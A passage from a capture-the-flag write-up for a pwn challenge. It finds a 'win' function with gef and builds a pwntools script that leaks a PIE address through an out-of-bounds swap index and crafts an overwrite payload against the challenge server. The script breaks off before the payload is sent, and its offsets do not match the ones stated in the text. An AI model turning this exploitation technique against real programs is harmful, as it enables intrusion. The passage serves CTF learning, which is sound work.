 ## Step 5. Finding the win function address

Now we can calculate the address of the `win` function by finding the offset between `_start` and `win` in the binary.
```txt
gef➤  info function win
All functions matching regular expression "win":
...
Non-debugging symbols:
0x00005555555552c9  win()
```

The offset is `0x52c9 - 0x51e0 = 0xe9`.

Now we can add `0xe9` to the `received` address to get the `win` address.


We can use `pwntools` from Python to craft the payload.

```py
from pwn import *

# io = process('./chall') # for local testing
io = remote('chall.25.cuhkctf.org', 25067)

context.arch = 'amd64'
context.log_level = 'debug'

# pie
e = context.binary = ELF('./chall')

#GDB
# gdb.attach(io, '''pie break 0x1806''')

log.info("Step 1: Leak executable address using index 30 (as suggested in guide)")
io.recvuntil(b'>')
io.sendlineafter(b'> ', b'swap 30 0')
leak_line = io.recvuntil(b'>')
log.info(f"Leak response: {leak_line}")

# Extract leaked address
# The guide shows the leak should contain executable data
leaked_data = leak_line.split(b'Swapped ')[1].split(b' with')[0]
log.info(f"Leaked data: {leaked_data}")

# Convert to address (handle the string format)
# Since it's printed as a string, we need to extract the actual bytes
leaked_addr = unpack(leaked_data.ljust(8, b'\x00'), word_size=64)
log.success(f"Leaked address: {hex(leaked_addr)}")

# Calculate win address (you need to find this offset by analyzing the binary)
# Use: objdump -d chall | grep -A5 "win>:"
# Or: nm chall | grep win
base_addr = leaked_addr - 0x11e0  # From guide: offset to _start
win_addr = base_addr + 0x12c9     # Offset to win function (needs verification)

context.binary.address = base_addr

print(e.got['putchar'])

log.success(f"Base address: {hex(base_addr)}")
log.success(f"Win address: {hex(win_addr)}")

payload = b'UUUUUUUU' + p64(win_addr)
payload = payload.strip(b'\\x00')

```